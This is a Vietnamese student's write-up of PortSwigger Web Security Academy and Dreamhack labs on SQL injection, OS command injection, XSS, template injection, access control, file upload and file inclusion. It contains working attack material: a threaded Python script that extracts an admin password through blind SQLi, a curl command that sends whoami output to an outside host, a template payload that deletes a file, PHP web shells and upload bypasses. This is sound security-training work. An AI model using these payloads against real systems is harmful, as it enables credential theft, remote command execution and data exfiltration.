# SQL injection
## Lab: Blind SQL injection with conditional responses
Theo đề tài mô tả: Challenge này dạng bind sql với điều kiện đúng thì web sẽ trả về `welcom back`, điều kiện sai sẽ không trả về gì.

Trước hết em xác định trên trang web các tham số mà người dùng kiểm soát được bao gồm: 
- producid: /product
- category: /filter
- TrackingID: cookie

Chèn thêm 1 kí tự bất kỳ vào 3 tham số trên, em xác nhận được tham số TrackingID khi bị thay đổi sẽ làm biến mất chuỗi `welcom back`. Như vậy, lỗng hổng blind sql đã xác nhận

Sau khi nhận dạng được lỗ hổng, em tiến hành xây dựng payload để lấy password của administrator theo yêu cầu.

```sql
' or substr( (select password from users where username='administrator'),1,1) = 'a' --
```

Có 2 cách tối ưu khai thác:
- intruder: lọc length
- script python

```
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "https://0aa200290420b4b8803f0d5000830048.web-security-academy.net/"
session_value = "2tHl2EyyOIAYwyw4NepjjKNm3i7f9TCo"
mark = "Welcome back"

characters = "abcdefghijklmnopqrstuvwxyz0123456789"
password = ""


def test_character(vitri, char):
    payload = (
        f"' OR SUBSTR("
        f"(SELECT password FROM users "
        f"WHERE username='administrator'),"
        f"{vitri},1)='{char}' -- "
    )

    response = requests.get(
        url,
        cookies={
            "session": session_value,
            "TrackingId": payload
        },
        timeout=10
    )

    return char if mark in response.text else None


for vitri in range(1, 32):
    print(f"Đang tìm vị trí {vitri}...")

    with ThreadPoolExecutor(max_workers=10) as executor:
        jobs = [
            executor.submit(test_character, vitri, char)
            for char in characters
        ]

        found = None

        for job in as_completed(jobs):
            result = job.result()

            if result is not None:
                found = result
                break

    if found is None:
        print("Không tìm thấy ký tự tiếp theo.")
        break

    password += found
    print("Password hiện tại:", password)

print("Password:", password)
```




# OS COMMAND INJECTION
## Lab: Blind OS command injection with out-of-band data exfiltration
Theo đề bài, lỗ hổng os command injection tồn tại trong chức năng feedback. Chức năng yêu cầu 4 tham số bao gồm: `name`, `email`, `subject`, `message`
Do đề bài hướng tới out-of-band vậy nên em sẽ chèn các payload mà sử dụng các lệnh như ping, curl,nslookup kết hợp với `OR` (||) để test. Tham số có khả năng nhất sẽ là email vì nó là nơi duy nhất có thể xử lý domain

```bash
||+curl+domain||
```

Xem log thì đã xác nhận có request gửi đến. Sau khi xác nhận thành công em sẽ thực hiện khai thác lấy username theo yêu cầu đề bài.

```bash
||+curl+domain?abc=$(whoami)||
```
Kết quả: user là `peter-MZTV57`


# CROSS SITE SCRITPTING
## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
Theo đề bài, lỗ hổng XSS tồn tại ở chức năng search và sẽ bị filter dấu nháy đơn và dấu gạch chéo ngược. 
Như vậy với các kí tự như `<,>,/` không bị filter (đã test) nên có thể tạo thành `<script> </script>`

Khi nhập với payload `<script> alert(1) </script>` browser không thực thi hiển thị cảnh báo mà hiển thị nội dung `'; document.write('');`. Với kết quả như vậy, em nghĩ rằng payload đã làm ảnh hưởng và  để leak ra đoạn code trên. Mở source code em thấy đoạn script
```js
<script>
    var searchTerms = '<script>alert(1)</script>';
    document.write('');
</script>
```
Trình duyệt phân tích HTML trước JavaScript. Khi gặp chuỗi `</script>` trong payload, HTML parser sẽ coi đó là thẻ đóng của `<script>` gốc, dù chuỗi này đang nằm bên trong dấu nháy JavaScript. Như vậy phần js trước đỏ sẽ trở thành 

```js
var searchTerms = '<script>alert(1)
```

Đây là đoạn js không hoàn chỉnh do thiếu nháy đơn, nên phát sinh lỗi cú pháp. Vì vậy phần đằng sau sẽ được trình duyệt hiển thị như văn bản 


Điều chỉnh lại payload
```js
</script><script> alert(1) </script>
```



# SERVER SIDE TEMPLATE INJECTION
## Lab: Basic server-side template injection (code context)
Trang web có chức năng hiển thị theo `name`,`nickname`,`test` khi comment trong bài post. Bắt request em thấy tham số và giá trị của nó `blog-post-author-display=user.name` . Em thực hiện xóa value thì trang hiển thị comment đã bị lỗi và trong đó cho em biết 2 điều: python version 2.7 và template engine là tornado.


Tiếp đến, em thử các payload phổ biến {{7*'7'}} thì nhận được kết quả là `7777777`


Vì cần xóa file nên em đã kiểm tra module os và thấy không có sẵn nhưng vẫn cho phép import 
```
{{__import__('os).system('rm /home/carlos/morate.txt')}}
```

# ACCESS CONTROL
## Lab: Insecure direct object references
Theo đề bài, tính năng chat là nơi tồn tại lỗ hổng. Em tiến hành truy cập và test 2 chức năng con bên trong là chat và view transcript.

Khi kiểm tra burp suite em thấy có endpoint hiển thị nội dung đoạn chat là `/download-transcript/2.txt` . Vì vậy em thử thay đổi file thành 1.txt và nhận được đoạn message chứa password như dưới:



Đăng nhập với username: carlos và password trên là hoàn thành challenge

## Lab: Multi-step process with no access control on one step 

Theo đề bài, họ cung cấp cho 1 account admin để xem được quy trình cập nhật role của user. Quy trình diễn ra làm 2 quá trình: 
+ Gửi yêu cầu upgrade / down
+ Xác nhận lại yêu cầu trên

Thử quy trình cuối bằng cách thay đổi username upgrade là wiener và cookie của wiener thì vẫn confirm thành công. Dẫn tới việc tài khoản wiener có thể tự nâng cấp role cho bản thân. 



## Lab: Referer-based access control
Đối với bài này việc kiểm soát truy cập ở `GET /admin-roles?username=wiener&action=upgrade` chỉ dựa vào header referer.

Như vậy em sẽ tiến hành gửi tới endpoint trên kèm cookie của wiener và giá trị của `referer: https://ID.web-security-academy.net/admin` là có thể upgrade quyền admin của bản thân.



# FILE UPLOADS VULNERABILITIES
Các đuôi mở rộng của file có thể chèn mã thực thi bên trong file là:
- `php`: inc, pht, php, php2, php3, php4, php5, php6, php7, phps, phar, pgif, phtm, phtml, shtml
- `asp.net`: asp, asa, svc, rem, axd 
- `java`: 
## Lab: Remote code execution via web shell upload
Theo đề bài, mục tiêu là lấy nội dung từ đường dẫn `/home/carlos/secret`. Challenge cung cấp một chức năng upload ảnh avatar. Sau khi upload thành công sẽ được chuyển hướng tới /files/avatars/1141011.jpg. Để kiểm tra em thực hiện upload file php thông thường và kết quả nhận lại là upload thành công.


Thay đổi nội dung php thành đoạn payload sau để đọc nội dung file secret của user carlos

```php
<?php echo file_get_contents("/home/carlos/secret");?>
```

##  Lab: Web shell upload via Content-Type restriction bypass
Trong challenge này đã cung cấp thêm cơ nhận diện chỉ cho phép upload file loại image.jpeg . Ở bước đầu, khi upload file nó sẽ dựa vào extension để chọn content-type tương ứng. Nhưng khi sử dụng repeater để gửi lại mà thay đổi content-type thành image/jpeg nhưng nội dung vẫn giữ nguyên thì quá trình upload vẫn thành công.



Em tiếp tục thay đổi tên extension file trong repeater thành `.php` và nhận thấy vẫn upload thành công. Như vậy em sửa nội dung trong repeater thành lệnh đọc file.



## Lab: Web shell upload via path traversal
Theo bài này, ứng dụng sẽ thực hiện cấu hình thư mục chỉ được phép chạy các MIME type được cấu hình sẵn. Trong bài này, thư mục /files/avatar/ không cho phép thực thi và ảnh dưới đây cho thấy server trả về nguyên chuỗi.


Như vậy em thử thêm `../` vào filename và nhận thấy upload thành công, ứng dụng cũng gợi ý truy cập vào `/avatar/../test.php`. 


Truy cập vào `/files/avatar/../test.php` để nhận secret


## Lab: Web shell upload via extension blacklist bypass

Vì challenge, đã filter không thể upload file .php. vậy nên em thử upload file `.php5` và đã thành công nhưng extention này chưa được phép thực thi.

Em viết cấu hình sau trong upload với tên file `.htaccess` để ghi đề cấu hình cho phép thực thi các file có extension `.php5`
```php
<FilesMatch "\.php5$">
    SetHandler application/x-httpd-php 
</FilesMatch>
```

Kết quả file `.php5` đã được thực thi và trả về kết quả secret



## Lab: Web shell upload via obfuscated file extension
Challenge này thực hiện ngăn chặn upload các loại file khác jpg/png. Theo mô tả sẽ phải sử dụng các kỹ thuật là rối để bypass. Em thử và phát hiện với dạng `.php%00.jpg` khi upload file sẽ trở thành `.php` phần `%00.jpg` đã bị cắt bỏ.





## Lab: Remote code execution via polyglot web shell upload

Vì ứng dụng chỉ kiểm tra signature của file nên em sẽ tạo ra polyglot jpg để nhúng đoạn php vào. Em tìm kiếm và biết được cách tạo bằng exiftool như dưới đây

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" a-lone-samurai-sm-1920x1200.jpg -o test.php 
```
Kết quả sẽ phản hồi ở phần giữa START VÀ END 

## Dreamhack Lab: php-1
Sau khi làm các bài lab về file upload trên portswigger, em có tìm kiếm thêm các bài CTF trên dreamhack để tiếp cận nhiều dạng bài hơn. 
Theo đề yêu, bài này dính lỗ hổng Local file inclusion(LFI). LFI là lỗ hổng xảy ra khi cho phép người dùng tác động đến đường dẫn của một tệp được chương trình nạp vào để xử lý. Ví dụ đoạn code minh họa em sẽ lấy luôn từ bài này
```php
    <div class="container">
      <?php
          include $_GET['page']?$_GET['page'].'.php':'main.php';
      ?>
    </div> 
```
Như có thể thấy đường dẫn page được lấy qua tham số page được truyền từ GET sau đó được nối với đuôi `.php`. Ngược lại, chương trình sẽ nạp `main.php` . Nếu chúng ta biết một file php nào trong ứng dụng, chúng ta đều có thể nạp. Đề bài yêu cầu cần đọc file flag.php tại đường dẫn `/var/www/uploads/flag.php`. 

Để kiểm tra lỗi LFI, em sẽ truyền đường dẫn đó vào tham số `page`. Kết quả có nội dung được trả về nhưng flag không xuất hiện.
